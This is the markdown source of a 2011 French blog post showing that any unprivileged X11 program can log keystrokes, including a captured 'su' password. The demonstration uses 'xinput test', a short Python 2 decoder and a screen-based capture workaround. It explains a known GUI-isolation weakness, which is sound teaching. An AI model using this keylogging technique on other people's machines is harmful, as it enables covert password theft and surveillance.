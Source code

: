 ```yaml
---
layout: post
title: 'Keylogger sous GNU/Linux : enregistrer les touches tapées au clavier'
date: 2011-11-01 22:09:57+01:00
---
```


En tant que [_root_][root], il est bien sûr potentiellement possible de faire ce que
l'on veut sur sa machine, comme enregistrer toutes les touches tapées au clavier
([keylogger][]).

[root]: http://fr.wikipedia.org/wiki/Utilisateur_root
[keylogger]: http://fr.wikipedia.org/wiki/Enregistreur_de_frappe

{: .center}
![keyboard]({{ site.assets }}/keylogger/keyboard.png)

Mais aussi incroyable (et inquiétant) que cela puisse paraître, il est possible
de faire exactement la même chose… sans être _root_.


## Démonstration

Et en plus, c'est tout simple : il suffit pour un programme d'écouter les
événements clavier envoyés par le [serveur X][]. Prenons un outil qui le fait
déjà (ça nous évitera de le coder), `xinput` :

[serveur x]: http://fr.wikipedia.org/wiki/X_Window_System

    sudo apt-get install xinput

Pour obtenir la liste des périphériques utilisables :

    xinput list

Repérer la ligne concernant le clavier (contenant « `AT` ») et noter son _id_ (ici `11`).

    $ xinput list | grep AT
        ↳ AT Translated Set 2 keyboard            	id=11	[slave  keyboard (3)]

Puis démarrer l'écoute sur ce périphérique dans un terminal :

    xinput test 11

Au fur et à mesure que l'on tape du texte, la sortie standard de `xinput`
indique quelles touches sont tapées :

    key press   56 
    key release 56 
    key press   32 
    key release 32 
    key press   57 
    key release 57 
    key press   44 
    key release 44 
    key press   32 
    key press   30 
    key release 32 
    key release 30 
    key press   27 
    key release 27



Cela fonctionne même lorsqu'on écrit dans une autre application, quelque soit
l'utilisateur qui l'a démarrée. En particulier, si dans un autre terminal on
exécute la commande suivante, le mot de passe est bien capturé :

    $ su -
    Mot de passe : 

Un programme avec de simples droits utilisateur peut donc écouter tout ce qui
est tapé au clavier (et donc l'enregistrer, l'envoyer à un serveur…).


## Décodage


### Convertisseur

La sortie de `xinput` n'est pas très utilisable en pratique. Pour la décoder, un
programme d'une vingtaine de lignes en _Python_ suffit (fortement inspiré de [ce
PoC][poc]). Appelons-le [`xinput-decoder.py`][xinput-decoder.py] :

[poc]: http://ardoris.wordpress.com/2011/04/24/linux-keylogger-proof-of-concept/
[xinput-decoder.py]: http://dl.rom1v.com/keylogger/xinput-decoder.py

{% highlight python %}
#!/usr/bin/env python
# -*- coding: UTF-8 -*-
import re, sys
from subprocess import *

def get_keymap():
    keymap = {}
    table = Popen(['xmodmap', '-pke'], stdout=PIPE).stdout
    for line in table:
        m = re.match('keycode +(\d+) = (.+)', line.decode())
        if m and m.groups()[1]:
            keymap[m.groups()[0]] = m.groups()[1].split()[0]
    return keymap

if __name__ == '__main__':
    keymap = get_keymap();
    for line in sys.stdin:
        m = re.match('key press +(\d+)', line.decode())
        if m:
            keycode = m.groups()[0]
            if keycode in keymap:
                print keymap[keycode],
            else:
                print '?' + keycode,
{% endhighlight %}

Pour convertir le résultat à la volée :

    xinput test 11 | ./xinput-decoder.py



### Problème de redirection

Le problème, c'est que lorsqu'on redirige la sortie de `xinput` dans un fichier
ou en entrée d'un autre programme, le contenu ne s'affiche que par salves
(d'environ 128 caractères apparemment). Sans doute une histoire de [buffer][], à
mon avis activé uniquement lorsque la fonction [`isatty()`][isatty] retourne
_true_.

[buffer]: http://fr.wikipedia.org/wiki/M%C3%A9moire_tampon
[isatty]: http://www.kernel.org/doc/man-pages/online/pages/man3/isatty.3.html
http://www.kernel.org/doc/man-pages/online/pages/man3/isatty.3.html

Pour contourner le problème et récupérer les dernières touches tapées, il est
possible de démarrer la commande dans un `screen` :

    screen xinput test 11

puis, à la fin de la capture, d'enregistrer le contenu dans un fichier. Pour
cela, dans le `screen` ainsi ouvert, taper `Ctrl+A`, `:`, puis `hardcopy -h
/tmp/log`.  De cette manière, `/tmp/log` contiendra toute la capture.

Pour convertir le résultat :

    $ ./xinput-parser.py < /tmp/log
    s u space minus Return p a s s w o r d Return a p t minus g e t space u p d a t e Return Control_L a colon


### Améliorations

Une solution plus pratique serait peut-être de démarrer `xinput` par le
programme _Python_, en lui faisant croire qu'il écrit dans un _TTY_ (ce que je
ne sais pas faire). [Quelqu'un][better-keylogger] l'a fait [en
_Perl_][keylog2].

Il faudrait également prendre en compte le relâchement des touches dans le
décodeur, car lorsqu'il affiche `Shift_L a b`, nous n'avons aucun moyen de
savoir si la touche `Shift` a été relâchée avant le `a`, entre le `a` et le `b`,
ou après le `b`.

[better-keylogger]: http://www.kirsle.net/blog/kirsle/building-a-better-keylogger
[keylog2]: http://sh.kirsle.net/keylog2


## Liens

Merci à [Papillon-butineur][] de m'avoir fait découvrir ce fonctionnement étonnant du _serveur X_.

Je vous recommande le billet suivant (en anglais) ainsi que ses commentaires :
[The Linux Security Circus: On GUI isolation][gui-isolation].

**EDIT :** En 2016, [tuxicoman][] a proposé une implémentation en C++.

[papillon-butineur]: http://papillon-butineur.blogspot.com/2011/10/keylogger-sous-linux.html
[gui-isolation]: http://theinvisiblethings.blogspot.com/2011/04/linux-security-circus-on-gui-isolation.html
[tuxicoman]: https://tuxicoman.jesuislibre.net/2016/09/keylogger-pour-x-server.html
